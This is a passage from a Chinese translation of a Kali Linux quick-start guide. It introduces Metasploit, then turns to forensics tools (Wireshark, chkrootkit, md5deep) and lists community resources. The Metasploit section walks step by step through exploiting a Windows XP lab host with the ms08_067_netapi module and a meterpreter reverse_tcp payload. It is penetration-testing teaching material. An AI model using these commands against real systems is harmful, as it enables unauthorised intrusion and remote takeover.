+   **辅助模块**：这是 Metasploit 的一个主要特点。辅助模块是可以执行各种任务的特定功能模块，包括先前和后期的利用。它的一些主要功能包括扫描、信息收集、发动特定攻击、操作系统检测、服务检测等。

+   **打包工具**：Metasploit 配备了几个方便的工具，可以进一步增强渗透测试体验。这些附加包可以创建独立的有效载荷，并使用不同的算法加密有效载荷，数据库连接，图形用户界面等。

+   **第三方插件**：Metasploit 可以集成多个第三方插件，并使用其结果构建自己的攻击结构。来自各种工具（如 Nmap、Nessus 和 NeXpose）的结果可以直接在框架内使用。

+   **开源**：Metasploit 的免费版本是开源的，因此可以根据需要进行完全扩展和修改。

可以通过导航至**应用程序** | **Kali Linux** | **前 10 个安全工具** | **Metasploit Framework**来启动 Metasploit。

一旦控制台加载完成，您将注意到`msf>`提示，这表明 Metasploit 现在已准备好接收您的命令。

要开始使用 Metasploit 进行渗透测试，我们需要一个目标系统。让我们启动快速 Nmap 扫描，以找出我们网络中的活动系统。我们将使用以下命令启动 Nmap：

```
msf > nmap 192.168.56.1/24

```


在前面的截图中，您可以看到 Nmap 已检测到四个不同的目标系统。让我们以 192.168.56.102 的 IP 目标一个 Windows XP 系统。现在 Nmap 已经发现我们的目标系统正在使用 Windows XP 操作系统，我们的下一个目标将是为 Windows XP 识别远程漏洞。幸运的是，我们有一些稳定的漏洞。让我们在 Metasploit 存储库中搜索`netapi`漏洞。

```
msf > search netapi

```


让我们选择`exploit`模块的`ms08_067_netapi`模块，该模块被评为`great`。要激活此模块，请在控制台上输入以下命令：

```
msf > use exploit/windows/smb/ms08_067_netapi

```

这将把控制台提示更改为`exploit`模块，表示您的`exploit`模块已准备好执行。

现在我们的下一步将是向`exploit`模块传递所需的参数值。`show options`命令显示所需的参数。

这里需要传递`RHOST`值。`RHOST`是我们要定位的远程主机。

```
msf exploit(ms08_067_netapi) > set RHOST 192.168.56.102

```

一旦设置了`exploit`模块，下一步是选择`PAYLOAD`。让我们使用`meterpreter`有效载荷如下：

```
msf exploit(ms08_067_netapi) >set PAYLOAD windows/meterpreter/reverse_tcp

```

选择了`meterpreter`有效载荷后，现在我们需要传递有效载荷参数值。再次传递`show options`命令以查看所需的参数。传递 LHOST IP，即攻击机的 IP。

现在我们已经准备好启动 exploit。传递`exploit`命令以将`exploit`模块发送到目标机器。



如果攻击成功，您将注意到控制台提示变为`meterpreter`，表示我们的有效载荷已成功在远程机器上执行，现在我们可以通过攻击机控制它。您可能已经注意到 Metasploit 如何轻松地通过使用`exploit`模块完全接管了远程目标。Metasploit 是一个非常强大的工具，可以对远程目标进行渗透测试。这是有关 Metasploit 的一个快速入门教程。

让我们继续下一节，我们将阅读有关 Kali Linux 中存在的各种取证工具的内容。

## 使用 Kali Linux 进行网络取证

**网络取证**涉及分析、报告和从计算机系统或任何数字存储介质中恢复网络信息。取证涉及对事件的详细调查以及收集相关信息。Kali 配备了一系列工具，可以协助进行有效的取证分析。取证分析通常涉及调查不同方面，需要不同的工具。与利用框架不同，取证通常依赖于多种工具。让我们在这里详细介绍一些主要的取证工具。

### 使用 Wireshark 进行网络分析

Wireshark 是一种类似于**tcpdump**的开源网络数据包分析工具，它捕获通过电线（网络）流动的数据包，并以可理解的形式呈现它们。Wireshark 可以被视为一把瑞士军刀，因为它可以在不同的情况下使用，如网络故障排除、安全操作和学习协议内部。这是一个可以胜任一切任务的工具，并且使用起来非常容易。

使用 Wireshark 的一些重要好处如下：

+   多协议支持

+   用户友好的界面

+   实时流量分析

+   开源

要开始使用 Kali Linux 中的 Wireshark 工具，请导航至**应用程序** | **Kali Linux** | **前 10 个安全工具** | **Wireshark**。

加载 GUI 后，您将需要选择要开始使用的接口。左下角面板显示各种可用接口。选择一个接口，然后单击**开始**开始。您会注意到 GUI 开始显示所选接口上捕获的不同数据包。


您会注意到 Wireshark GUI 分为三个不同的部分。**捕获**面板显示数据包的实时捕获。**数据包详细信息**面板显示有关捕获面板中所选数据包的信息。**数据包字节**面板以转储或实际格式表示数据包详细信息面板中的信息。它显示流的字节序列。您可以从菜单选项中选择不同的操作以最大化捕获性能。

### 使用 chkrootkit 进行 Rootkit 扫描取证

Rootkits 是恶意程序，旨在隐藏恶意进程，以免被检测，并允许继续访问计算机系统，通常是远程访问。Kali Linux 提供了一个特殊的 rootkit 取证工具，称为`chkrootkit`。可以通过导航到**Kali Linux** | **取证** | **数字反取证** | **chkrootkit**来启动它。

加载终端后，将目录更改为`/usr/sbin`并启动`chkrootkit`。



启动`chkrootkit`后，它将开始扫描系统中是否存在恶意程序。`chkrootkit`是一个非常方便的工具，可以快速识别系统上安装的任何可疑程序。

### 使用 md5deep 进行文件分析

md5deep 是一个开源工具，用于计算任意数量文件的哈希或消息摘要。它还可以递归遍历目录结构，生成目录中每个文件的签名。生成文件的 MD5 签名有助于取证分析师了解文件内容是否已更改。将原始文件的 MD5 与可能修改的文件的 MD5 进行比较；如果发现不匹配，则得出文件已被修改的结论。

md5deep 的使用非常简单。可以从**应用程序** | **Kali Linux** | **取证** | **取证哈希工具** | **md5deep**启动。



要为目录生成文件签名列表，请使用以下命令：

```
root@kali:~#md5deep –r /darklord > darklordmd5.sum

```

要匹配文件完整性，请执行以下命令：

```
root@kali:~#md5deep –rx darklordmd5.sum

```

这样，我们可以分析文件的完整性，以确保是否进行了任何修改。

# 您应该认识的人和地方

如果您需要 Kali Linux 的帮助，以下是一些人和地方，将会非常有价值。

## 官方网站

以下是您应该访问的官方网站：

+   主页：[`www.kali.org`](http://www.kali.org)

+   手册和文档：[`docs.kali.org`](http://docs.kali.org)

+   博客：[`www.kali.org/blog/`](http://www.kali.org/blog/)

+   源代码：[`git.kali.org/gitweb/`](http://git.kali.org/gitweb/)

## 文章和教程

以下是您应该阅读以获取更多关于 Kali Linux 的知识的文章：

+   Backtrack 重生-Kali：[www.offensive-security.com/offsec/backtrack-reborn-kali-linux/](http://www.offensive-security.com/offsec/backtrack-reborn-kali-linux/)

+   使用 Kali linux 轻松访问无线网络：[`community.rapid7.com/community/infosec/blog/2013/05/22/easily-assessing-wireless-networks-with-kali-linux`](https://community.rapid7.com/community/infosec/blog/2013/05/22/%E2%80%A8easily-assessing-wireless-networks-with-kali-linux)

+   Kali Linux 在企业级别破解密码：[`lifehacker.com/5990375/kali-linux-cracks-passwords-on-the-enterprise-level`](http://lifehacker.com/5990375/kali-linux-cracks-passwords-on-the-enterprise-level)

+   在 Kali Linux 上安装 Vmware 工具：[`www.drchaos.com/installing-vmware-tools-on-kali-linux/`](http://www.drchaos.com/installing-vmware-tools-on-kali-linux/)

## 社区

您可以在以下地方联系 Kali Linux 社区：

+   官方邮件列表：`<info@kali.org>`

+   官方论坛：[`forums.kali.org`](http://forums.kali.org)

+   非官方论坛：[`www.kalilinux.net`](http://www.kalilinux.net)

+   IRC：`irc.freenode.net #kali-linux`

## 博客

以下是一些您应该阅读的博客和视频教程：

+   通过*Vivek Ramachandran*的互动视频学习安全技巧：[`www.securitytube.net`](http://www.securitytube.net)

+   Metasploit unleashed，Kali 创始人的项目：[`www.offensive-security.com/metasploit-unleashed/Main_Page`](http://www.offensive-security.com/metasploit-unleashed/Main_Page)

+   由 Cyber arms 制作的 Kali 视频教程：[`cyberarms.wordpress.com/2013/07/01/video-training-kali-linux-assuring-security-by-penetration-testing/`](http://cyberarms.wordpress.com/2013/07/01/video-training-kali-linux-assuring-security-by-penetration-testing/)

+   使用 Armitage 进行网络攻击管理：[`www.fastandeasyhacking.com/`](http://www.fastandeasyhacking.com/)

## Twitter

您可以关注：

+   Kali Linux 在 Twitter 上：[`twitter.com/kalilinux`](https://twitter.com/kalilinux)

+   MalwareMustDie，在 Twitter 上的非营利组织：[`twitter.com/malwaremustdie`](https://twitter.com/malwaremustdie)

+   关注*Devon Kearns*在 Twitter 上：[`twitter.com/dookie2000ca`](https://twitter.com/dookie2000ca)

+   关注 Twitter 上的*Abhinav Singh*：[`twitter.com/abhinavbom`](https://twitter.com/abhinavbom)

+   关注*Ken Soona*在 Twitter 上：[`twitter.com/attackvector#shamelessplug`](https://twitter.com/attackvector#shamelessplug)
